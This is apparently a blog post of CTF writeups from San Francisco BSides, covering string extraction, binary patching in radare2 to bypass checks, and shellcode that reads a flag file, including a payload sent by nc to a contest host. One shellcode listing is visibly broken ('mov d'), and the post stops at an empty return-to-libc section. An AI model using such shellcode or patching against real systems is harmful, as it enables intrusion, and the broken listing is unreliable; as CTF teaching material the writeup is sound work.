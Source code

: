 #+BEGIN_EXPORT html
---
layout: page
title: San Francisco BSides CTF Writeup
excerpt: A quick writeup of San Francisco Bsides CTF
tags:
  - ctf
  - infosec
category: note
---
#+END_EXPORT

* Writeups

  Because so many of these challenges don't have their answers published by their
  organizers after the event is settled, it's up to the community to put together
  'writeups' of the techniques employed in solving these. 

  Here's a few of those.


** NOP
   The =NOP= instruction is microcode for =xchg EAX, EAX=
** easycap
   This challenge doesn't include the flag in a string because it's spread out over
   multiple packets. You can easily extract the flag by 'following' a TCP stream in
   your network packet capture software of choice.

** easy
   This challenge doesn't require you to perform any reverse engineering as the
   the flag is visible as a direct =.symstrtab= entry.

   #+BEGIN_EXAMPLE
zv@syszv >> strings easy-64 | grep -i flag
FLAG:db2f62a36a018bce28e46d976e3f9864
   #+END_EXAMPLE

** Skipper
   In this challenge I'm going to use one of the best disassemblers available
   today: [[http://radare.org/r/][radare]] . It is both free and contains many facilities for modifying
   the binary in various ways (without plugins). (You could also solve this
   challenge with a debugger very easily)

   #+BEGIN_EXAMPLE
   cp tmp/skipper64 /tmp/skipper64-backup # a backup in case you fubar the binary
   r2 /tmp/skipper64
   #+END_EXAMPLE

   Next, seek the read head to the =main= symbol and tap ~V~ key to bring yourself
   into disassembly.

   #+BEGIN_EXAMPLE
   [0x004026d1]> s main
   #+END_EXAMPLE

   #+BEGIN_EXAMPLE
       0x004026d1      push rbp                                                                                                                                                                                
       0x004026d2      mov rbp, rsp                                                                                                                                                                            
       0x004026d5      sub rsp, 0x420                                                                                                                                                                          
       0x004026dc      mov dword [rbp - 0x414], edi                                                                                                                                                            
       0x004026e2      mov qword [rbp - 0x420], rsi                                                                                                                                                            
       0x004026e9      mov rax, qword fs:[0x28]                   ; [0x28:8]=0x3200 ; '('                                                                                                                      
       0x004026f2      mov qword [rbp - 8], rax                                                                                                                                                                
       0x004026f6      xor eax, eax                                                                                                                                                                            
       0x004026f8      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x004026ff      mov rdi, rax                                                                                                                                                                            
       0x00402702      call 0x400b3e                              ;[1]                                                                                                                                         
       0x00402707      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x0040270e      mov rsi, rax                                                                                                                                                                            
       0x00402711      mov edi, str.Computer_name:__s_n           ; "Computer name: %s." @ 0x402987                                                                                                            
       0x00402716      mov eax, 0                                                                                                                                                                              
       0x0040271b      call sym.imp.printf                        ;[2]                                                                                                                                         
       0x00402720      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402727      mov esi, str.hax0rz__                      ; "hax0rz!~" @ 0x40299a                                                                                                                      
       0x0040272c      mov rdi, rax                                                                                                                                                                            
       0x0040272f      call sym.imp.strcmp                        ;[3]                                                                                                                                         
       0x00402734      test eax, eax                                                                                                                                                                           
   ┌─< 0x00402736      je 0x40275b                                ;[4]                                                                                                                                         
   │   0x00402738      lea rax, [rbp - 0x410]                                                                                                                                                                  
   │   0x0040273f      mov rsi, rax                                                                                                                                                                            
   │   0x00402742      mov edi, str.Sorry ; "Sorry, your computer's name - %s - is not correct!." @ 0x4029a8                                                    
   │   0x00402747      mov eax, 0                                                                                                                                                                              
   │   0x0040274c      call sym.imp.printf                        ;[2]                                                                                                                                         
   │   0x00402751      mov edi, 9                                                                                                                                                                              
   │   0x00402756      call sym.imp.raise                         ;[5]                                                                                                                                         
   └─> 0x0040275b      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402762      mov rdi, rax                                                                                                                                                                            
       0x00402765      call 0x400c4a                              ;[6]                                                                                                                                         
       0x0040276a      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402771      mov rsi, rax                                                                                                                                                                            
       0x00402774      mov edi, str.OS_version:__s_n              ; "OS version: %s." @ 0x4029dc                                                                                                               
       0x00402779      mov eax, 0                                                                                                                                                                              
       0x0040277e      call sym.imp.printf                        ;[2]                                                                                                                                         
       0x00402783      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x0040278a      mov esi, str.2.4.31                        ; "2.4.31" @ 0x4029ec                                                                                                                        
       0x0040278f      mov rdi, rax                                                                                                                                                                            
       0x00402792      call sym.imp.strcmp                        ;[3]                                                                                                                                         
       0x00402797      test eax, eax                                                                                                                                                                           
   ┌─< 0x00402799      je 0x4027e3                                ;[7]                                                                                                                                         
   │   0x0040279b      lea rax, [rbp - 0x410]                                                                                                                                                                  
   │   0x004027a2      mov rsi, rax                                                                                                                                                                            
   │   0x004027a5      mov edi, str.Sorry__your_OS_version____s___is_not_supported__n
   #+END_EXAMPLE

   You can see here that several functions are being called and compared against
   builtin strings like /hax0r!~/. The context gives you an idea that it's checking
   the hostname, but let's be sure.

   #+BEGIN_EXAMPLE
   [0x004026d1]> s 0x400b3e
   [0x00400b67]> pd 10 @ +64
   0x00400ba7      mov edi, 1
   0x00400bac      call sym.imp.exit
   0x00400bb1      mov ecx, 0
   0x00400bb6      mov edx, 0x40291f                          ; "-n"
   0x00400bbb      mov esi, str.uname                         ; "uname" @ 0x402922
   0x00400bc0      mov edi, str.uname                         ; "uname" @ 0x402922
   0x00400bc5      mov eax, 0
   0x00400bca      call sym.imp.execlp
   0x00400bcf      call sym.imp.__errno_location
   0x00400bd4      mov eax, dword [rax]
   #+END_EXAMPLE

   You can see it's calling =uname= here. Before you start changing your system's
   configuration to accommodate, first know it's not possible to set your hostname
   to this value.

   This means you are going to either have to use a debugger and manually change
   the =ZF=, =CF=, =OF= or other condition flags or patch up all of the =je=
   instructions.

   #+BEGIN_EXAMPLE
   [0x00400b67]> oo+ # This makes the binary writable
   [0x00400b67]> wao jmp @ 0x00402736
   [0x00400b67]> wao jmp @ 0x00402799
   ...
   #+END_EXAMPLE

   After this, run the binary and get the flag! ~FLAG:f51579e9ca38ba87d71539a9992887ff~


** TODO Skipper2

** Easyshell 1 
   Both of the easyshell puzzles are warmups who run any shellcode sent on the
   wire. However, you can't use some of the most common shellcode for spawning
   =/bin/sh= as there is no remote shell. This shellcode reads the file
   =/home/ctf/flag.txt=

   Compile with ~nasm -f bin flag.asm~

   #+BEGIN_SRC nasm
BITS 64
section .text

_start:
  xor    eax,eax
  xor    ebx,ebx
  xor    ecx,ecx
  xor    edx,edx
  jmp    read

one:
  pop    rbx
  mov    al,0x5
  xor    ecx,ecx
  int    0x80
  mov    esi,eax
  jmp    read

exit:
  mov    al,0x1
  xor    ebx,ebx
  int    0x80

read:
  mov    ebx,esi
  mov    al,0x3
  sub    esp,0x1
  lea    ecx,[rsp]
  mov    dl,0x1
  int    0x80
  xor    ebx,ebx
  cmp    ebx,eax
  je     exit
  mov    al,0x4
  mov    bl,0x1
  mov    d
  int    0x80
  add    esp,0x1
  jmp    read

two:
  call   one
  string: db "/home/ctf/flag.txt"
   #+END_SRC


** Easyshell 2
   Like the prior challenge, you simply just need to write some code to read out
   a file. I used the following.

   #+BEGIN_SRC nasm
 BITS 64
 section .text
 _start:
   jmp _push_filename

 _readfile:
   ; syscall open file
   pop rdi ; pop path value
   xor rax, rax
   add al, 2
   xor rsi, rsi ; set O_RDONLY flag
   syscall
  
   ; syscall read file
   sub sp, 0xfff
   lea rsi, [rsp]
   mov rdi, rax
   xor rdx, rdx
   mov dx, 0xfff; size to read
   xor rax, rax
   syscall
  
   ; syscall write to stdout
   xor rdi, rdi
   add dil, 1 ; set stdout fd = 1
   mov rdx, rax
   xor rax, rax
   add al, 1
   syscall
  
   ; syscall exit
   xor rax, rax
   add al, 60
   syscall
  
 _push_filename:
   call _readfile
   path: db "/home/ctf/flag.txt"
   #+END_SRC

** i-am-the-shortest
   This is a challenge designed to mimic the common constraints exploit authors must deal with.

   The premise of the challenge is that you get to execute 5 arbitrary bytes - far
   shorter than even the shortest shellcode could allow for.

   There's undoubtedly dozens of ways the problem can be solved, I've successfully used two:

*** Direct System Call
    Beginning at =0x80487ef=, the core code runs:

    #+BEGIN_SRC nasm
  call   80486db <get_flag> ;; where the 'flag' is gotten
  add    esp,0x10
  lea    eax,[ebp-0x8c]
  mov    esi,eax
  mov    ebx,0x1
  sub    esp,0x8
  lea    eax,[ebp-0x8c]
  push   eax
  push   0x8048946
  call   8048500 <printf@plt>
  add    esp,0x10
  sub    esp,0xc
  push   0x8048964
  call   8048550 <puts@plt>
  add    esp,0x10
  sub    esp,0x4
  push   0x5
  push   DWORD PTR [ebp-0x94]
  push   0x0
  call   80484f0 <read@plt> ;; where `read` is called
  add    esp,0x10
  mov    DWORD PTR [ebp-0x90],eax
  mov    edx,0xff
  cmp    DWORD PTR [ebp-0x90],0x5
  ja     804885c <main+0x10c>
  jmp    DWORD PTR [ebp-0x94] ;; here is where it finally jumps in
    #+END_SRC

    The last line is where this =jmp= to attacker-controlled memory actually
    occurs.

    Although the above code snippet doesn't show it directly, it's also important
    to note that the address of the flag read remains stored in =ESI= when the ~jmp
    [ebp-0x94]~ occurs.

    In tandem with the fact that =read= returns the length of the value read in
    =EAX=, you can abuse this by entering a system-call. (Remember, Linux calling
    convention dictates that x86 system call's interrupt vector is given in =EAX=)

    So, in total you need to write shellcode that is only *4* bytes long (rather
    than the maximum permitted of 6), you can have the interrupt vector 'prefilled'
    for you. This leaves you with only two tasks:

    - All you need to do now is find an efficient way to copy =ESI= into =ECX= (the source register for the =read= system call)
    - Actually invoking a system call.

    There are a number of ways to do the above and due to the idiosyncracies of how
    assemblers are written and how opcodes are decoded, it's possible to write many
    different variations of an instruction that vary wildly in length. Anything
    that moves the contents of ESI into ECX will do.

    After this, you need to initiate a system call, you can use either =sysenter=
    or =int 0x80= as both are encoded in 2 bytes.

    All told, the following shellcode should do just fine.
 
    #+BEGIN_SRC nasm
  mov cx, si
  int 0x80
    #+END_SRC

    I use and recommend [[http://www.nasm.us/][Netwide Assembler]], although there are other tools like
    [[https://github.com/radare/radare2/wiki/Ragg2][Ragg2]]. To generate assembly without any sort of executable format, you can use
    the following argument switches to assemble and hexdump your shellcode:

    ~nasm -f bin assembly.asm && xxd assembly~

    After this, you can encode it in whichever format you'd like and send it off!

    #+BEGIN_EXAMPLE
 [zv@syszv] /tmp >> echo -en '\x89\xf1\xcd\x80' | \
                    nc i-am-the-shortest-6d15ba72.ctf.bsidessf.net 8890
 The address of 'flag' is 0xfff3bd5c
 Send your machine code now! Max length = 5 bytes.

 FLAG:c9f053110aa0f2d28ed8978e3b03cb01
 v7`v`v7`vyy`v`vp7x%
    #+END_EXAMPLE

*** Return-to-Libc
    This is a little trickier, you need to abuse at least two different tricks here.

   
   
